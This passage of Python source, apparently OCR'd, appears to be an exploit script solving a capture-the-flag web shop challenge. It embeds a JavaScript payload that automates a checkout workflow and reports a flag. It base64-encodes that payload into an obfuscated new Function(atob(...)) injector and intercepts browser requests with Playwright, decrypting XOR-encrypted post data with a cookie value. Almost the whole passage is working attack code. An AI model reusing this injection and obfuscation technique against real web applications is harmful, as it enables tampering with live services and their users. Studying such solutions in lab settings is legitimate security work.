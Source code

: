 ```python
                          method: "POST",
                          headers: { "X-Session-ID": session_id, "Content-Type": "application/json" },
                          body: JSON.stringify({})
                        });

                        if (response.status === 400) {
                            logToPage('[!] Received status 400 at checkout. Saving progress and reloading...');
                            setProgress('checkout', session_id);
                            location.reload();
                            return;
                        }
                        if (!response.ok) throw new Error(`Checkout failed: ${response.status}`);
                        
                        const data = await response.json();
                        logToPage("[*] Checkout response:");
                        logToPage(data);

                        if ("order_id" in data) {
                          logToPage("=====================================");
                          logToPage("✅ FLAG FOUND ✅");
                          logToPage(data.order_id);
                          logToPage("=====================================");
                          document.querySelector('h1').textContent = 'Exploit Complete: FLAG FOUND!';
                          clearProgress(); // Success! Clean up.
                        } else {
                          throw new Error("Checkout succeeded but no flag was found.");
                        }
                    }

                  } catch (err) {
                    logToPage("FATAL ERROR during workflow: " + err.message);
                    document.querySelector('h1').textContent = 'Exploit FAILED!';
                    clearProgress(); // Clean up on failure to prevent loops
                  }
                })();
            }, 3000);
        """

        # --- Create the final script to inject ---
        # 1. Encode the main payload into Base64 to ensure it's a safe, single-line string for injection.
        encoded_exploit = base64.b64encode(exploit_payload.encode('utf-8')).decode('ascii')
        
        # 2. Create a simple, one-line decoder/executor script.
        injector_script = f"const b64='{encoded_exploit}';new Function(atob(b64))();"

        async def log_and_modify_request(route, request):
            url = request.url
            if url.endswith("/.well-known/appspecific.com.chrome.devtools.json"):
                await route.fulfill(status=404, content_type="text/plain", body="Not Found")
                return

            print("=" * 80)
            print(f"➡️  REQUEST: {request.method} {url}")
            if request.post_data:
                cookies = await page.context.cookies()
                x_cookie = next((c['value'] for c in cookies if c['name'] == 'x'), None)
                if x_cookie:
                    try:
                        decrypted_bytes = xor_decrypt(request.post_data, x_cookie)
```